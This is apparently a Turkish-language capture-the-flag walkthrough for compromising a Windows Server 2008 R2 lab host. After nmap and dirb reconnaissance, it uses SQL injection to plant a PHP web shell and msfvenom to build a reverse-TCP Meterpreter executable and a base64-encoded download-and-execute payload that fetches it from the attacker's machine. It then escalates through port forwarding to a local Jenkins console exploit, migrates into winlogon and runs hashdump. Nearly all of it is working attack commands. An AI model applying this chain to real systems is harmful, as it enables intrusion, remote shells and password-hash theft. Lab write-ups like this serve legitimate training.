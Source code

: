 ## CTF

- 192.168.1.128 SYSTEM haklarında Meterpreter oturumu elde ediniz.
--edemedi--

**- ÇÖZÜM:**

		=> nmap -A 192.168.1.128 -vv

		PORT     STATE SERVICE      REASON          VERSION
		21/tcp   open  ftp          syn-ack ttl 128 Microsoft ftpd
		| ftp-anon: Anonymous FTP login allowed (FTP code 230)
		|_Can't get directory listing: TIMEOUT
		81/tcp   open  http         syn-ack ttl 128 Microsoft IIS httpd 7.5
		| http-methods: 
		|   Supported Methods: OPTIONS TRACE GET HEAD POST
		|_  Potentially risky methods: TRACE
		|_http-server-header: Microsoft-IIS/7.5
		|_http-title: IIS7
		445/tcp  open  microsoft-ds syn-ack ttl 128 Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds
		8181/tcp open  http         syn-ack ttl 128 Apache httpd 2.4.23 ((Win32) PHP/5.6.28)
		| http-methods: 
		|_  Supported Methods: GET HEAD POST OPTIONS
		|_http-server-header: Apache/2.4.23 (Win32) PHP/5.6.28
		|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
		MAC Address: 00:0C:29:0B:18:42 (VMware)
		| smb-os-discovery: 
		|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
		|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
		|   Computer name: WIN-MQAMOOSDNEE
		|   NetBIOS computer name: WIN-MQAMOOSDNEE\x00
		|   Workgroup: WORKGROUP\x00
		|_  System time: 2017-02-14T13:58:46+02:00

		=> dirb http://192.168.1.128:8181
		B> 192.168.1.128:8181/site/
		B> simple dynamic website sql injection site:exploit-db.com

- Websitesine SQL injection ile shell atıyoruz. Bunun için önce dizini bulmamız gerek. HEDEF/site/info.php de _SERVER["DOCUMENT_ROOT"] değişkeni bize verir veya HEDEF/site/page.php şeklinde uygulamaya hata verdirterek dizini öğrenebiliriz.

			B> HEDEF/shell.php?cmd=whoami

- Meterpreter shell'i oluşturmamız gerek.

		=> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<OUR_IP> LPORT=445 -f exe -o /var/www/html/halil.exe
		=> msfvenom -p php/download_exec --payload-options
		=> msfvenom -p php/download_exec URL=<OUR_IP>/halil.exe -f raw -o upload.txt
		
- upload.txt'yi SQL sorgusunu bozmayacak bir sekilde tek satır haline getirmemiz gerekir. Kodu base64'e dönüştüreceğiz. Ardından php'nin eval fonksiyonunu kullanacağız.

		=> msfvenom -p php/download_exec URL=<OUR_IP>/halil.exe -f raw -o upload.txt -e php/base64
- upload.txt'nin başına ve sonuna php taglarını ekle.

			=> msfconsole
			M> use /exploit/multi/handler
			M> set PAYLOAD windows/x64/meterpreter/reverse_tcp
			M> ayarlari yap ve calistir
			B> <HEDEF>payload
			B> <HEDEF>siber.php

**- Hak yükseltme aşaması:** Bu kısımda makine patch'li olduğu için kullanılabilir bir exploiti yok. Aşağıdaki yöntem izlenerek yetki yükseltilebilir.

	Mtr> shell
	S> netstat -ano

- Local'de 8080'i dinleyen bir port var. Eğer local interface'i dinleyen bir process varsa bu process büyük ihtimalle AUTH/SYS (*nix sistemlerde root) olarak çalışıyordur. Port forwarding kullanarak local interface'i kendimize bağlantı isteği atarak görebiliriz.

		Mtr> portfwd add -l 8080 -p 8080 -r 192.168.1.128
		=> nmap -n -sV -Pn 127.0.0.1 -p 8080 -vv 	(Kendi ağımıza yolladığımız isteğe tarama yapıyoruz.)
		B> 127.0.0.1:8080
		Mtr> background
		M> search jenkins
		M> use exploit/multi/http/jenkins_script_console
		M> set RHOST 127.0.0.1
		M> set RPORT 8080
		M> set TARGETURI /
		M> set PAYLOAD windows/meterpreter/reverse_tcp
		M> ayarlari yap ve calistir.
		Mtr> sysinfo
		Mtr> getuid
		Mtr> ps -S winlo
		Mtr> migrate WINLOGON_PID
		Mtr> hashdump
		
